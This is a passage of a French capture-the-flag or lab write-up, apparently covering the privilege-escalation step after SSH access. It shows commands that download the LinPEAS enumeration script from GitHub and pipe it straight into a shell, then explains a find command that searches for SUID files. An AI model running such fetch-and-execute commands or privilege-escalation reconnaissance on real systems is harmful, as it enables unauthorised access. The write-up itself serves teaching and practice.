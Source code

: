 Maintenant que nous sommes connecté en SSH, nous allons devoir chercher un moyen, une faille nous permettant de faire une escalade de privilèges afin de passer en root.

Malheureusement, je n'ai pas pu faire télécharger sur la machine cible, le script [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) avec les commandes suivantes :
![](Screens/linPEAS.png)
```sh
## From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

## Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```


Donc, j'ai fait cette commande manuelle qui va faire la même chose : 
Cette commande a pour but de rechercher les fichiers sur le système qui ont le bit SUID (Set User ID) défini. 
- `find /`: Lance la commande `find` à partir de la racine du système de fichiers (`/`).
- `-type f`: Limite la recherche aux fichiers ordinaires (pas de répertoires, de liens symboliques, etc.). Le `-type f` spécifie que nous cherchons des fichiers.
- `-perm -u=s`: Cherche des fichiers qui ont le bit SUID défini. 
Le bit `SUID` permet à un utilisateur d'exécuter un fichier avec les privilèges du propriétaire de ce fichier. Par exemple, si un fichier est possédé par l'utilisateur root et a le bit SUID défini, alors un utilisateur normal pourrait exécuter ce fichier avec les privilèges root.

- `2>/dev/null`: Redirige les erreurs (descripteur de fichier 2) vers `/dev/null`, ce qui signifie que les messages d'erreur seront ignorés. 

```sh
find / -type f -perm -u=s 2>/dev/null
```
![](Screens/find%201.png)
